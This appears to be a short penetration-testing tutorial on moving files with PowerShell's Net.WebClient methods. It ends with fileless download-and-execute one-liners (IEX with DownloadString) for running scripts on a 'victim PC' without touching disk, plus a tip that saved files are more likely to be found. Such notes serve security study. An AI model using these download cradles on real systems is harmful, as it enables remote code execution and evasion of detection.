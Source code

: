 With PowerShell directly, there are a few ways you can transfer data some include,
 - OpenRead
 - DownloadData
 - DownloadFile
 - DownloadString

Each of which can be done synchronously (The transfer needing to finish before you can do anything else in the terminal) or asynchronously (You CAN do other stuff while its downloading).
So instead of "OpenRead", it would be "OpenReadAsync"

```powershell
(New-Object Net.WebClient).OpenRead("<URL>")
(New-Object Net.WebClient).DownloadData("<URL>")
(New-Object Net.WebClient).DownloadFile("<URL>", "<Output Path>")
(New-Object Net.WebClient).DownloadString("<URL>")
```

These are the commands for each where:
New-Object - This is just declaring the object
Net.WebCleint - This is the class for web requests
OpenRead() - The method (duh)


But in a situation where you're, for example, transferring a script like a enumeration script to the victim PC, you would want to run it directly without saving, you can use the IEX command to execute the command you just transferred (Note: DownloadFile saves directly to the PC meaning its much more likely to be found)

```powershell
IEX (New-Object Net.WebClient).DownloadString("<URL>")
```
or alternatively you can pipe it with

```powershell
(New-Object Net.WebClient).DownloadString("<URL>") | IEX
```
